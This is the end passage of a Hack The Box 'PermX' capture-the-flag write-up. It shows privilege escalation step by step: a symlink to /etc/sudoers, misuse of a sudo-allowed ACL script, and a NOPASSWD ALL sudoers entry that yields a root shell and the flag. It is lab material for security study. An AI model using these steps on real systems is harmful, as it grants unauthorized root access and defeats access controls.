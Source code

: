 ```bash
```

I create a soft link to give permissions to the `mtz` user in the `/etc/sudoers` file because by default only root can access this file:

```bash
ln -s /etc/sudoers /home/mtz/sudoers
sudo /opt/acl.sh mtz rw /home/mtz/sudoers
```

I add a new entry at the end of the `/home/mtz/sudoers` file to have permissions as root user:

```
mtz ALL=(ALL) NOPASSWD: ALL
```

I switch to `root` user to get the `root.txt` flag:

```
mtz@permx:~$ sudo su
root@permx:/home/mtz# ls
sudoers  user.txt
root@permx:/home/mtz# ls /root
backup  reset.sh  root.txt
root@permx:/home/mtz# cat /root/root.txt
a70dea42************************
```

And the machine is pwned! ;)

## References

- mtzsec. (2024, July 06). <span class="reference-title">PermX</span>. _HTB Labs_. [https://app.hackthebox.com/machines/613](https://app.hackthebox.com/machines/613)
